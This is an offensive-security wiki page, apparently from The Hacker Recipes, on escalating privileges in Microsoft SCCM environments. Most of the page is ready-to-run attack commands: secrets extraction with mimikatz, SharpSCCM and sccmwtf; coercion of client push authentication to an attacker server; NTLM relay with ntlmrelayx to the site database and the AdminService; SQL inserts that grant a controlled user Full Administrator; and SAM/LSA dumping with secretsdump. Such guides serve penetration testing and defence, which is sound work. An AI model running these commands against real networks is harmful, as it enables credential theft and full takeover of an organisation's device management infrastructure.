

# Privilege Escalation

## Theory

Currently there are three different pathways for privilege escalation routes in an SCCM environment and take control over the infrastructure:

* Credential harvesting: includes all the ways that could permit to retrieve SCCM related credentials in the environment.
* Authentication Coercion: with a compromised machine in an Active Directory where SCCM is deployed via **Client Push Accounts** on the assets, it is possible to have the "Client Push Account" authenticate to a remote resource and, for instance, retrieve an NTLM response (i.e. [NTLM capture](ntlm/capture.md)). The "Client Push Account" usually has local administrator rights to a lot of assets.
* SCCM site takeover: a NTLM authentication obtained from the SCCM primary site server can be relayed to the SMS Provider or the MSSQL server in order to compromise the SCCM infrastructure.
* SCCM site takeover from a passive site server: as describer by [Garrett Foster](https://twitter.com/garrfoster) in this [article](https://posts.specterops.io/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43), when a passive site server is setup for high availability purpose, its machine account **must** be a member of the local Administrators group on the active site server. It must also be administrator on all the site system deployed in the site, including the MSSQL database

## Practice

### Credential harvesting

The following SCCM components can contain credentials:

* Device Collection variables
* TaskSequence variables
* Network Access Accounts (NAAs)
* Client Push Accounts
* Application & Scripts (potentially)

Find more details about these components in [this blog](https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/) post.

#### Network Access Accounts (NAAs)

NAAs are manually created domain accounts used to retrieve data from the SCCM Distribution Point (DP) if the machine cannot use its machine account. Typically, when a machine has not yet been registered in the domain. To do this, the SCCM server sends the NAA policy to the machine, which will store the credentials encrypted by DPAPI on the disk. The credentials can be retrieved by requesting the WMI class in the CIM store in a binary file on the disk.

NAA doesn't need to be privileged on the domain, but it can happen that administrators give too many privileges to these accounts.

It is worth to  note that, even after deleting or changing the NAA in the SCCM configuration, the binary file still contains the encrypted credentials on the enrolled computers.



From UNIX-like systems, with administrative privileges over a device enrolled in the SCCM environment, [SystemDPAPIdump.py](https://github.com/fortra/impacket/pull/1137) (Python) can be used to decipher via DPAPI the WMI blob related to SCCM and retrieve the stored credentials. Additionally, the tool can also extract SYSTEM DPAPI credentials.

```bash
SystemDPAPIdump.py -creds -sccm $DOMAIN/$USER:$PASSWORD@target.$DOMAIN
```

On the other hand, it is possible, from a controlled computer account, to manually request the SCCM policy and retrieve the NAAs inside.


The tool author ([Adam Chester](https://twitter.com/\_xpn\_)) warns not to use this script in production environments.


Step 1: Gain control over a computer account password.

For this step, it is possible to create a new computer account (if permited by the domain policy), instead of compromise a domain computer.

```bash
addcomputer.py -dc-ip $DC -computer-name controlledComputer$ -computer-pass controlledPassword $DOMAIN/$USER:$PASSWORD
```

Step 2: Use `sccmwtf.py` to extract NAA secrets

A controlled computer account is needed to send the authenticated request (this is why a computer account has been created previously) to retrieve the policy, but the account to spoof doesn't need to be the same.

Here, `$SCCM_MP_NetBiosName` takes the value of the SCCM Management Point server NETBIOS name.

```bash
sccmwtf.py fakepc fakepc.$DOMAIN $SCCM_MP_NetBiosName "$DOMAIN\controlledComputer$" "controlledPassword"
```

Step 3: Obtain obfuscated NAA secrets

The obufscated NAA secrets will be saved in a local file.

```bash
cat /tmp/naapolicy.xml
```

Values to decode are the long hexadecimal strings in the CDATA sections (`<![CDATA[String_here]`).

Step 4: Decode obfuscated strings

To decode username and password use `.\DeobfuscateSecretString.exe` contained in [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) or [sccmwtf](https://github.com/xpn/sccmwtf/blob/main/policysecretunobfuscate.c)

````powershell
policysecretdecrypt.exe $HEX_STRING
````

Alternatively, [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) automates all the attack with, or without, an already controlled computer accounts. For this purpose, the `http` module uses the result from the `find` command and enumerates the remote hosts for SCCM/MECM enrollment web services. If it finds one, it performs [Adam Chester](https://twitter.com/\_xpn\_)'s attack for the specified computer account. If no account is already under control, the `-auto` flag can be indicated to create a new computer account.

```bash
#Create a new computer account and request the policies
python3 sccmhunter.py http -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -auto

#To use an already controlled computer account
python3 sccmhunter.py http -u $USER -p $PASSWORD -d $DOMAIN -cn $COMPUTER_NAME -cp $COMPUTER_PASSWORD -dc-ip $DC_IP
```



From a Windows machine enrolled in the SCCM environment, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#), [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) or a PowerShell command, can be used with, administrative rights, to extract the NAA credentials locally.

```powershell
# Locally From WMI
Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_NetworkAccessAccount

# Extracting from CIM store
SharpSCCM.exe local secretes disk

# Extracting from WMI
SharpSCCM.exe local secretes wmi

# Using SharpDPAPI
SharpDPAPI.exe SCCM

# Using mimikatz
mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # dpapi::sccm
```

SharpSCCM also permits to request the SCCM policy remotely to retrieve the NAA credentials inside.

```powershell
SharpSCCM.exe get secretes
```



#### TaskSequence variables

TaskSequence are steps that can be configured by an administrator to perform specific actions, for example "Sequence for adding a machine to the domain". Think of it as a script that runs. These TaskSequences can contain variables that can contain credentials. These sequences can use device collection variables (presented in the next section) as conditions.



At the time of writing, no solution exists to perform this attack from a UNIX-like machine.



From a Windows machine enrolled in the SCCM environment, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) or a PowerShell command can be used with, administrative rights, to extract the TaskSequence variables locally.

```powershell
# Locally from WMI 

Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_TaskSequence

# Extracting from CIM store
SharpSCCM.exe local secrets -m disk

# Extracting from WMI
SharpSCCM.exe local secrets -m wmi
```

SharpSCCM also permits to request the SCCM policy remotely to retrieve the NAA credentials inside.

```powershell
SharpSCCM.exe get secrets
```



#### Device Collection variables

Devices enrolled in an SCCM environment can be grouped by collection. These exist by default, but administrators can create custom collections (for example "Server 2012 devices"), and add variables for these collections that will be used, for example, during application deployement to check some conditions. These variables may very well contain credentials and be found locally on the clients.



At the time of writing, no solution exists to perform this attack from a UNIX-like machine.



From a Windows machine enrolled in the SCCM environment, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) or a PowerShell command can be used with, administrative rights, to extract the collection variables locally.

```powershell
# Locally from WMI 

Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_CollectionVariable

# Locally from CIM store
SharpSCCM.exe local secrets -m disk

# Locally from WMI
SharpSCCM.exe local secrets -m wmi
```



<figure><figcaption></figcaption></figure>

### Authentication Coercion via Client Push Installation


In some case, the "Client Push Accounts"  could even be part of the Domain Admins group, leading to a complete takeover of the domain.


The client push installation can be triggered forcefully or - if you're lucky - your compromised machine might not have the SCCM client installed, which mean you could capture the client push installation as it occurs.

**Option 1: Wait for Client Push Installation**

```powershell
# Credential capture using Inveigh 
Inveigh.exe
```

**Option 2: Forcefully "coerce" the Client Push Installation**


Important note: You want to read [this blog](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a) post before you continue this route, as this attack might leave traces behind and might junk up the SCCM environment.


**Step 1: Prepare coercion receiver**

Note that you could either capture & crack received credentials or relay them to a suitable target system (or both).

```sh
# On Linux
## Relay using ntlmrelayx.py
ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179
```
```powershell
# On Windows
## Credential capture using Inveigh 
Inveigh.exe
```

**Step 2: Trigger Client-Push Installation**

```PowerShell
# If admin access over Management Point (MP)
SharpSCCM.exe invoke client-push -t <AttackerServer> --as-admin

# If not MP admin
SharpSCCM.exe invoke client-push -t <AttackerServer>
```

**Step 3: Cleanup**

If you run the above SharpSCCM command with the `--as-admin` parameter (cause you have admin privileges over the MP), there's nothing to do. Otherwise get in contact with the administrator of the SCCM system you just messed up and provide the name or IP of the attacker server you provided in the `-t <AttackerServer>` parameter. This is the device name that will appear in SCCM.


### SCCM Site Takeover

The primary site server's computer account is member of the local Administrators group on the site database server and on every site server hosting the "SMS Provider" role in the hierarchy (See [SCCM Topology](sccm-mecm.md#topology)).

> The user account that installs the site must have the following permissions:
>
> * **Administrator** on the following servers:
>   * The site server
>   * Each SQL Server that hosts the **site database**
>   * Each instance of the **SMS Provider** for the site
> * **Sysadmin** on the instance of SQL Server that hosts the site database
>
> _(source:_ [_Microsoft.com_](https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/install/prerequisites-for-installing-sites)_)_

This means that it is possible to obtain administrative access on the site database server, or interact as a local administrator with the HTTP API on the SMS Provider, by relaying a NTLM authentication coming from the primary site server, for example by coercing an automatic client push installation from it, and granting full access on the SCCM site to a controlled user.


For more details about how these attacks work, refer to the article "[SCCM Site Takeover via Automatic Client Push Installation](https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)" by [Chris Thompson](https://mobile.twitter.com/\_mayyhem) for the database attack, and "[Site Takeover via SCCM’s AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)" by [Garrett Foster](https://twitter.com/garrfoster) for the HTTP one.


#### Relay to the MSSQL site database


Some requirements are needed to perform the attack:

* automatic site assignment and automatic site-wide [client push installation](sccm-mecm.md#client-push-installation-1) are enabled
* fallback to NTLM authentication is enabled (default)
* the hotfix [KB15599094](https://learn.microsoft.com/fr-fr/mem/configmgr/hotfix/2207/15599094) not installed (it prevents the client push installation account to perform an NTLM connection to a client)
* PKI certificates are not required for client authentication (default)
* either:

    * MSSQL is reachable on the site database server

    OR

    * SMB is reachable and SMB signing isn’t required on the site database server
* knowing the three-character site code for the SCCM site is required (step 3 below)
* knowing the NetBIOS name, FQDN, or IP address of a site management point is required
* knowing the NetBIOS name, FQDN, or IP address of the site database server is required

The first four requirements above apply to the [client push installation coercion technique](sccm-mecm.md#client-push-installation). But without them, a regular coercion technique could still be used (petitpotam, printerbug, etc.).


1. Retrieve the controlled user SID

The first step consists in retrieving the hexadecimal format of the user's SID (Security IDentifier) to grant "Full Administrator SCCM role" to, on the site database server. The hex formatted SID is needed in a part below: [#4.-obtain-an-sql-console](sccm-mecm.md#4.-obtain-an-sql-console "mention").



From UNIX-like systems, the Samba utility named [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can be used for this purpose.

```bash
rpcclient -c "lookupnames USER" $TARGET_IP
```

Impacket's [lookupsid](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) (Python) can also be used to retrieve the user's SID.

```bash
lookupsid.py "$DOMAIN"/"$USERNAME":"$PASSWORD"@"$TARGET_IP_OR_NAME"
```

The returned SID value is in canonical format and not hexadecimal, [impacket](https://github.com/fortra/impacket/blob/34229464dab9ed4e432fdde56d14a916baaac4db/impacket/ldap/ldaptypes.py#L48) can be used to convert it as follows.


```python
from impacket.ldap import ldaptypes
sid=ldaptypes.LDAP_SID()
sid.fromCanonical('sid_value')
print('0x' + ''.join('{:02X}'.format(b) for b in sid.getData()))
```




From Windows systems, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) can be used for this purpose.

```
# this should be run on the windows SCCM client as the user (no need for admin privileges here)
SharpSCCM.exe get user-sid
```



2. Setup NTLM relay server

The target of the [NTLM relay attack](ntlm/relay.md) must be set to the site database server, either on the MS-SQL (port `1433/tcp`), or SMB service (port `445/tcp`) if the relayed user has admin privileges on the target. The rest of this page is focusing on relaying the authentication on the MS-SQL service.



From UNIX-like systems, [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (Python) script can be used for that purpose. In the examples below, the `-socks` option is used for more versatility but is not required.

```bash
# targetting MS-SQL
ntlmrelayx.py -t "mssql://siteDatabase.domain.local" -smb2support -socks

# targeting SMB
ntlmrelayx.py -t "siteDatabase.domain.local" -smb2support -socks
```



From Windows systems, [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell) can be used as an alternative to [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), however it doesn't feature the same SOCKS functionality, need in the steps detailed below, meaning the exploitation from Windows system will need to be adapted.



Fore more insight on NTLM relay attacks and tools options, see the corresponding page on The Hacker Recipes: [NTLM Relay](ntlm/relay.md).

3. Authentication coercion

The primary site server's authentication can be coerced via automatic client push installation targeting the relay server with [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#). For more information, see the corresponding article "[Coercing NTLM authentication from SCCM](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)" by [Chris Thompson](https://mobile.twitter.com/\_mayyhem). Alternatively, the server's authentication could be coerced with other, more common, coercion techniques ([PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc.).



From UNIX-like systems, authentication can be coerced through [PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc. (not based on triggering the client push installation).

There isn't any UNIX-like alternative to the `SharpSCCM.exe invoke client-push` feature (yet).




```powershell
SharpSCCM.exe invoke client-push -mp "SCCM-Server" -sc "<site_code>" -t "attacker.domain.local"
```




The rest of this page is focusing on relaying the authentication on the MS-SQL service.

4. Obtain an SQL console

If the NTLM relay attack is a success and was targeting the MS-SQL service with SOCKS support, an SQL console could be obtained on the SCCM database through the opened socks proxy. From UNIX-like systems, [Impacket](https://github.com/fortra/impacket)'s [mssqlclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) (Python) can be used for that purpose.

```bash
proxychains mssqlclient.py "DOMAIN/SCCM-Server$"@"siteDatabase.domain.local" -windows-auth
```

Once the console is obtained, the attack can proceed to granting the user full privileges by running the following commands in the SQL console.

<pre class="language-sql"><code class="lang-sql">--Switch to site database
<strong>use CM_&#x3C;site_code>
</strong>
--Add the SID, the name of the current user, and the site code to the RBAC_Admins table
<strong>INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (&#x3C;SID_in_hex_format>,'DOMAIN\user',0,0,'','','','','&#x3C;site_code>');
</strong>
--Retrieve the AdminID of the added user
<strong>SELECT AdminID,LogonName FROM RBAC_Admins;
</strong>
--Add records to the RBAC_ExtendedPermissions table granting the AdminID the Full Administrator (SMS0001R) RoleID for the “All Objects” scope (SMS00ALL), 
--the “All Systems” scope (SMS00001), 
--and the “All Users and User Groups” scope (SMS00004)
<strong>INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (&#x3C;AdminID>,'SMS0001R','SMS00ALL','29');
</strong><strong>INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (&#x3C;AdminID>,'SMS0001R','SMS00001','1');
</strong><strong>INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (&#x3C;AdminID>,'SMS0001R','SMS00004','1');
</strong></code></pre>

It is then possible to verify the new privileges on SCCM.

<pre class="language-powershell"><code class="lang-powershell"># this should be run on the windows SCCM client as the user that was just given full administrative role to 
<strong>.\SharpSCCM.exe get site-push-settings -mp "SCCM-Server" -sc "&#x3C;site_code>"
</strong></code></pre>

Post exploitation via SCCM can now be performed on the network.

#### Relay to the HTTP API AdminService


Some requirements are needed to perform the attack:

* The HTTP API for the **AdminService** service is reachable on the SMS Provider server
* knowing the NetBIOS name, FQDN, or IP address of a site management point is required
* knowing the NetBIOS name, FQDN, or IP address of the site SMS provider server is required


1. Setup an NTLM relay server

The target of the [NTLM relay attack](ntlm/relay.md) must be set to the SMS Provider server, on the HTTP/S service (port `80/tcp` or `443/tcp`).



From UNIX-like systems, [this PR](https://github.com/fortra/impacket/pull/1593) on [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (Python) script can be used for that purpose.

```bash
ntlmrelayx.py -t https://smsprovider.domain.local/AdminService/wmi/SMS_Admin -smb2support --adminservice --logonname "DOMAIN\USER" --displayname "DOMAIN\USER" --objectsid <USER_SID>
```



From Windows systems, [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell) can be used as an alternative to [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), however it doesn't feature the same functionalities regarding this specific target, need in the steps detailed below, meaning the exploitation from Windows system will need to be adapted.



Fore more insight on NTLM relay attacks and tools options, see the corresponding page on The Hacker Recipes: [NTLM Relay](ntlm/relay.md).

2. Authentication coercion

The primary site server's authentication can be coerced via automatic client push installation targeting the relay server with [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#). For more information, see the corresponding article "[Coercing NTLM authentication from SCCM](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)" by [Chris Thompson](https://mobile.twitter.com/\_mayyhem). Alternatively, the server's authentication could be coerced with other, more common, coercion techniques ([PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc.).



From UNIX-like systems, authentication can be coerced through [PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc. (not based on triggering the client push installation).

There isn't any UNIX-like alternative to the `SharpSCCM.exe invoke client-push` feature (yet).



```powershell
SharpSCCM.exe invoke client-push -mp "SCCM-Server" -sc "<site_code>" -t "attacker.domain.local"
```



If the NTLM relay attack is a success and ntlmrelayx.py has effectively sent the request to the sms provider server, the controlled should be now a SCCM site admin.

It is then possible to verify the new privileges on SCCM.

```powershell
# this should be run on the windows SCCM client as the user that was just given full administrative role to 
SharpSCCM.exe get site-push-settings -mp "SCCM-Server" -sc "<site_code>"
```

#### Relay from a passive site server to the active site server


Some requirements are needed to perform the attack:

* a passive site server is present on the network and its reachable
* knowing the NetBIOS name, FQDN, or IP address of the passive and active site servers is required
* SMB signing is not required on the active site server (default) 


1. Setup an NTLM relay server

The target of the [NTLM relay attack](ntlm/relay.md) must be set to the active site server, on the SMB service.



From UNIX-like systems, [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (Python) script can be used for that purpose.

```bash
ntlmrelayx.py -t $ACTIVE_SERVER.$DOMAIN -smb2support -socks
```



From Windows systems, [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell) can be used as an alternative to [Impacket](https://github.com/fortra/impacket)'s [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py), however it doesn't feature the same functionalities regarding this specific target, need in the steps detailed below, meaning the exploitation from Windows system will need to be adapted.



Fore more insight on NTLM relay attacks and tools options, see the corresponding page on The Hacker Recipes: [NTLM Relay](ntlm/relay.md).

2. Authentication coercion

The passive site server's authentication can be coerced with ([PrinterBug](print-spooler-service/printerbug.md), [PetitPotam](mitm-and-coerced-authentications/ms-efsr.md), [ShadowCoerce](mitm-and-coerced-authentications/ms-fsrvp.md), [DFSCoerce](mitm-and-coerced-authentications/ms-dfsnm.md), etc.).

If the NTLM relay attack is a success and ntlmrelayx.py has effectively sent the request to the active server, a SMB session through socks proxy has been opened with administrative rights.

3. Dump active site server account credentials

Through the socks session, it is possible to dump the local credentials stored in the SAM database, and the secrets from the LSA, with [Impacket](https://github.com/fortra/impacket)'s [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) (Python).

```bash
proxychains4 secretsdump.py $DOMAIN/$PASSIVE_SERVER\$@$ACTIVE_SERVER.$DOMAIN
```

Retrieve the LM:NT hash of the server account.

4. Add a new SCCM `Full Admin`

Since the active site server must be a member of the SMS Provider administrators (it is member of the `SMS Admins` group), its credentials can be used to add a new controlled user to the `Full Admin` SCCM group. [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used for this purpose.

```bash
sccmhunter.py admin -u $ACTIVE_SERVER\$ -p $LMHASH:NTHASH -ip $SMS_PROVIDER_IP

() (C:\) >> add_admin controlledUser <controlledUser_SID>
() (C:\) >> show_admins
```

Post exploitation via SCCM can now be performed on the network.


The tool author ([Chris Thompson](https://mobile.twitter.com/\_mayyhem)) warns that [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) is a PoC only tested in lab. One should be careful when running in production environments.


## Resources
















